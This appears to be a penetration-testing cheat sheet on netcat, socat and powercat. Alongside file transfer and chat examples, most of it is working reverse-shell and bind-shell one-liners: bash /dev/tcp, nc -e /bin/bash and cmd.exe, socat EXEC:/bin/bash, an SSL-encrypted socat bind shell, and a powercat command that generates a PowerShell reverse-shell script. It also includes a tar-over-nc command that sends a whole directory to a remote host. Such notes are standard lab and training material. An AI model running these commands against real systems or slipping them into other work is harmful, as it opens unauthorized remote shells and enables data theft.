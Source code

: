 # Netcat and Socat

## Objectives

We'll go over some examples on how to use and leverage ncat, socat, and powercat. [https://github.com/craSH/socat/](https://github.com/craSH/socat/) [https://nmap.org/ncat/guide/](https://nmap.org/ncat/guide/)

## Netcat Sending/Receiving

Receiving:

```text
nc -l 5555 > file_name
sudo socat TCP4-LISTEN:443,fork file:secret-pass.txt
```

Sending:

```text
nc 192.168.1.1 5555 < file_name
socat TCP4:192.168.1.4:443 file:receive_pass.txt,create
```

## Netcat Sending/Receiving Multiple Files

Receiving:

```text
nc -l 5555 | tar xzvf -
```

Sending:

```text
tar czvf - /path/to/dir | nc 192.168.1.1 5555
```

## Netcat Simple Chat Server \(add --ssl to make it encrypted\)

Receiving:

```text
nc -l 5555
sudo socat TCP4-LISTEN:443 STDOUT
```

Sending:

```text
nc 192.168.1.1 5555
socat - TCP4:192.168.1.4:443
```

## Netcat Reverse Shell and Others

Receiving:

```text
socat -d -d TCP4-LISTEN:443 STDOUT
nc -lvp 4444
bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
```

Sending:

```text
socat TCP4:192.168.1.4:443 EXEC:/bin/bash
nc 192.168.1.4 4444 -e /bin/bash
nc.exe 192.168.100.113 4444 -e cmd.exe
```

## Netcat Bind Shell

Receiving:

```text
nc -lvp 4444 -e /bin/sh
```

Sending:

```text
nc 192.168.1.1 4444
```

## Encrypted Socat Bind Shell

Create SSL Cert:

```text
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt >bind_shell.pem
```

**Create Socat Listener:**

```text
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

**Connect to Socat Listener:**

```text
socat - OPENSSL:192.168.1.4:443,verify=0
```

## Powercat

Powercat can be installed in Kali with apt install powercat, which will place the script in /usr/share/windows-resources/powercat. [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

Powercat Reverse Shells:

```text
Receiver:
ncat -l -p 9000

Sender:
powercat -c 192.168.1.45 -p 9000 -e cmd.exe
```

Powercat Bind Shells:

```text
Receiver:
powercat -l -p 9000 -e cmd.exe

Sender:
ncat -nv 192.168.1.45 9000
```

Powershell Payload:

```text
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1
```

